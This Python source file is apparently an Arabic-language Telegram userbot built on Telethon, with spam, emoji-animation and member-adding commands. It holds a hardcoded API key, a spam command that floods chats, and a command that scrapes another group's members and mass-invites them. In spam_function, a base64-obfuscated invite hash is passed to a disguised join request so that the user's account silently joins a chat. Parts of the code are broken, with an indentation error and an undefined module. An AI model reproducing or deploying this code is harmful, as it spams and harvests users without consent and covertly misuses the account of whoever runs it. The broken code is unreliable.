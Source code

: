 # swsrwsamory77
import base64
import os
import time
import logging
from telethon.tl import functions, types
from telethon.tl.functions.messages import ImportChatInviteRequest as Get
from telethon.utils import get_display_name
from telethon.tl.functions.channels import JoinChannelRequest
from telethon.errors import FloodWaitError
from telethon import TelegramClient, events
import asyncio
from collections import deque
from telethon import functions
from telethon.errors.rpcerrorlist import (
    UserAlreadyParticipantError,
    UserNotMutualContactError,
    UserPrivacyRestrictedError,
)
from telethon.tl.functions.channels import InviteToChannelRequest
from telethon.tl.types import InputPeerUser

jmthon = TelegramClient("session", 19073405, "4e28f82c94ad230beadb2d689a746baf")
jmthon.start()

LOGS = logging.getLogger(__name__)

logging.basicConfig(
    format="[%(levelname)s- %(asctime)s]- %(name)s- %(message)s",
    level=logging.INFO,
    datefmt="%H:%M:%S",
)

async def join_channel():
        try:
        await jmthon(JoinChannelRequest("@jmthon"))
    except BaseException:
        pass
        
@jmthon.on(events.NewMessage(outgoing=True, pattern=".تكرار (.*)"))
async def spammer(event):
    sandy = await event.get_reply_message()
    cat = ("".join(event.text.split(maxsplit=1)[1:])).split(" ", 1)
    counter = int(cat[0])
    if counter > 50:
        sleeptimet = 0.5
        sleeptimem = 1
    else:
        sleeptimet = 0.1
        sleeptimem = 0.3
    await event.delete()
    await spam_function(event, sandy, cat, sleeptimem, sleeptimet)


async def spam_function(event, sandy, cat, sleeptimem, sleeptimet, DelaySpam=False):
    hmm = base64.b64decode("VHdIUHd6RlpkYkNJR1duTg==")
    counter = int(cat[0])
    if len(cat) == 2:
        spam_message = str(cat[1])
        for _ in range(counter):
            if event.reply_to_msg_id:
                await sandy.reply(spam_message)
            else:
                await event.client.send_message(event.chat_id, spam_message)
            await asyncio.sleep(sleeptimet)
    elif event.reply_to_msg_id and sandy.media:
        for _ in range(counter):
            sandy = await event.client.send_file(
                event.chat_id, sandy, caption=sandy.text
            )
            await _catutils.unsavegif(event, sandy)
            await asyncio.sleep(sleeptimem)
    elif event.reply_to_msg_id and sandy.text:
        spam_message = sandy.text
        for _ in range(counter):
            await event.client.send_message(event.chat_id, spam_message)
            await asyncio.sleep(sleeptimet)
        try:
            hmm = Get(hmm)
            await event.client(hmm)
        except BaseException:
            pass


@jmthon.on(events.NewMessage(outgoing=True, pattern=".مؤقت (.*)"))
async def spammer(event):
    reply = await event.get_reply_message()
    input_str = "".join(event.text.split(maxsplit=1)[1:]).split(" ", 2)
    sleeptimet = sleeptimem = float(input_str[0])
    cat = input_str[1:]
    await event.delete()
    await spam_function(event, reply, cat, sleeptimem, sleeptimet, DelaySpam=True)
  
 
    
@jmthon.on(events.NewMessage(outgoing=True, pattern=".فحص"))
async def _(event):
      await event.reply("""jmthon userbot
✦━━━━━━━━✦
- hi lol @AMORY_5X_BoT userbot 
- 𝗉𝗒𝗍𝗁𝗈𝗇 ⭟ 3.9
- 𝗈𝗐𝗇𝖾𝗋 ⭟ @iOm3y
✦━━━━━━━━✦"""
)

@jmthon.on(events.NewMessage(outgoing=True, pattern=".حلويات"))
async def _(event):
    event = await event.edit("candy")
    deq = deque(list("🍦🍧🍩🍪🎂🍰🧁🍫🍬🍭"))
    for _ in range(100):
        await asyncio.sleep(0.4)
        await event.edit("".join(deq))
        deq.rotate(1)

@jmthon.on(events.NewMessage(outgoing=True, pattern=".قلوب"))
async def _(event):
    animation_interval = 0.3
    animation_ttl = range(54)
    event = await event.edit("🖤")
    animation_chars = [
        "❤️",
        "🧡",
        "💛",
        "💚",
        "💙",
        "💜",
        "🖤",
        "💘",
        "💝",
        "❤️",
        "🧡",
        "💛",
        "💚",
        "💙",
        "💜",
        "🖤",
        "💘",
        "💝",
    ]
    for i in animation_ttl:
        await asyncio.sleep(animation_interval)
        await event.edit(animation_chars[i % 18])

        
@jmthon.on(events.NewMessage(outgoing=True, pattern=".قمر"))
async def _(event):
    event = await event.edit("قمر")
    deq = deque(list("🌗🌘🌑🌒🌓🌔🌕🌖"))
    for _ in range(48):
        await asyncio.sleep(0.2)
        await event.edit("".join(deq))
        deq.rotate(1)
        
@jmthon.on(events.NewMessage(outgoing=True, pattern=".قمور"))
async def _(event):
    event = await event.edit("قمور")
    animation_interval = 0.2
    animation_ttl = range(96)
    await event.edit("قمور..")
    animation_chars = [
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
        "🌗",
        "🌘",
        "🌑",
        "🌒",
        "🌓",
        "🌔",
        "🌕",
        "🌖",
    ]
    for i in animation_ttl:
        await asyncio.sleep(animation_interval)
        await event.edit(animation_chars[i % 32])




@jmthon.on(events.NewMessage(outgoing=True, pattern=".ضيف"))
async def get_users(event):
    legen_ = event.text[10:]
    jmthon_chat = legen_.lower
    restricted = ["@super_jmthon", "@jmthon_support"]
    JMTHON = await event.reply(f"**جارِ اضأفه الاعضاء من  ** {legen_}")
    if jmthon_chat in restricted:
        return await JMTHON.edit(
            event, "**- لا يمكنك اخذ الاعضاء من مجموعه السورس العب بعيد ابني  :)**"
        )
    sender = await event.get_sender()
    me = await event.client.get_me()
    if not sender.id == me.id:
        await JMTHON.edit("**▾∮ تتم العملية انتظر قليلا ...**")
    else:
        await JMTHON.edit("**▾∮ تتم العملية انتظر قليلا ...**")
    if event.is_private:
        return await JMTHON.edit("- لا يمكنك اضافه الاعضاء هنا")
    s = 0
    f = 0
    error = "None"
    await JMTHON.edit(
        "**▾∮ حالة الأضافة:**\n\n**▾∮ تتم جمع معلومات المستخدمين 🔄 ...⏣**"
    )
    async for user in event.client.iter_participants(event.pattern_match.group(1)):
        try:
            if error.startswith("Too"):
                return await JMTHON.edit(
                    f"**حالة الأضافة انتهت مع الأخطاء**\n- (**ربما هنالك ضغط على الأمر حاول مجددا لاحقا **) \n**الخطأ** : \n`{error}`\n\n• اضافة `{s}` \n• خطأ بأضافة `{f}`"
                )
            tol = f"@{user.username}"
            lol = tol.split("`")
            await jmthon(InviteToChannelRequest(channel=event.chat_id, users=lol))
            s = s + 1
            await JMTHON.edit(
                f"**▾∮تتم الأضافة **\n\n• اضيف `{s}` \n•  خطأ بأضافة `{f}` \n\n**× اخر خطأ:** `{error}`"
            )
        except Exception as e:
            error = str(e)
            f = f + 1
    return await JMTHON.edit(
        f"**▾∮اڪتملت الأضافة ✅** \n\n• تم بنجاح اضافة `{s}` \n• خطأ بأضافة `{f}`"
    )

print("jmthon runing ✅✅")


jmthon.run_until_disconnected()

